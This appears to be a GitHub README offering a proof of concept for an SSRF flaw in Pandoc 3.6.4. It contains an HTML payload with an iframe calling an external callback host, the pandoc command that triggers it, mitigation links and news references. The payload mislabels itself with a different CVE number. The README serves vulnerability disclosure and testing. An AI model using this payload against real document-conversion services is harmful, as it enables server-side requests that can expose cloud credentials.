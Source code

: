 


# CVE-2025-51591 Pandoc SSRF POC
<img width="1024" height="1024" alt="image" src="https://github.com/user-attachments/assets/5f054d25-9eaa-4c61-b53c-b3fac861d793" />


A Server-Side Request Forgery (SSRF) in JGM Pandoc v3.6.4 allows attackers to gain access to and compromise the whole infrastructure via injecting a crafted iframe.

# Install Pandoc
- https://pandoc.org/installing.html

# Payload
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CVE-2022-35583 Proof Of Concept</title>
</head>

<body>
    <h1>
        CVE-2022-35583 Proof Of Concept
    </h1>
    <iframe src="http://h9rvkkqhe0tkmsaiqlhgm1yrvi19ped3.oastify.com/CVE-2022-35583" frameborder="0"></iframe>
</body>

</html>
```
# Convert Payload To PDF Using Pandoc
```
pandoc payload.html -o output1.pdf
```

<img width="1469" height="1184" alt="image" src="https://github.com/user-attachments/assets/ec2c8986-e162-47ca-90ba-7a57fae65b6e" />


# Mitigate Strategies
- https://github.com/jgm/pandoc/issues/10682#issuecomment-2718343529
- https://pandoc.org/MANUAL.html#a-note-on-security

# References
- [Hackers Exploit Pandoc CVE-2025-51591 to Target AWS IMDS and Steal EC2 IAM Credentials](https://thehackernews.com/2025/09/hackers-exploit-pandoc-cve-2025-51591.html)
- [IMDS Abused: Hunting Rare Behaviors to Uncover Exploits](https://www.wiz.io/blog/imds-anomaly-hunting-zero-day)
- [SSRF When Generating PDFs from User-Controlled HTML](https://github.com/jgm/pandoc/issues/10682)
